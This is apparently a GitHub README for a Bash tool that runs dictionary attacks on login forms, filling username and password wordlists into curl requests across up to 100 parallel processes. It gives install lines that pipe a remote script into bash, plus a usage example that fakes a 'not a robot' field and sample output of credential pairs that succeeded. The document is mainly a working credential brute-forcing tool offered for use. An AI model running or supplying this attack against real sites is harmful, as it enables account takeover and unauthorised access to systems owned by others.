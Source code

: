 # curl-request-dictionary-attack

Bash script to perform dictionary attacks on any request via simple template-like substitutions in complete curl manner.


## INSTALLATION

```
curl -s https://raw.githubusercontent.com/psyb0t/curl-request-dictionary-attack/master/curl-request-dictionary-attack > /usr/local/bin && chmod +x /usr/local/bin/curl-request-dictionary-attack
```

or

```
echo 'alias curl-request-dictionary-attack="curl -s https://raw.githubusercontent.com/psyb0t/curl-request-dictionary-attack/master/curl-request-dictionary-attack | bash -s --"' >> ~/.bashrc && source ~/.bashrc
```

## USAGE

```
% cp config.sh.sample config.sh && cat config.sh
max_threads=100
dict_fields=(
  "user_input" "./usernames.txt"
  "password_input" "./passwords.txt"
)
expect_grep_expr=("-i" "welcome")
```

`max_threads` - the maximum number of curl processes to spawn at a time

`dict_fields` - the template strings used in the command and which files to be used to read data to be put in place of those strings

`expect_grep_expr` - the grep command expression to expect when something interesting happens (in the example above the expression results in `grep -i "welcome"`)


```
curl-request-dictionary-attack -skL -H "Referer: http://example.com/" --data "user={user_input}&password={password_input}&im_not_a_robot=1" "https://example.com/login"
```

whenever the `expect_grep_expr` does not return an empty string(based on the curl response) the entire curl command gets printed out

```
curl -skL -H Referer: http://example.com/ --data user=admin&password=admin-password&im_not_a_robot=1 https://example.com/login
curl -skL -H Referer: http://example.com/ --data user=basic-user&password=12345&im_not_a_robot=1 https://example.com/login
```
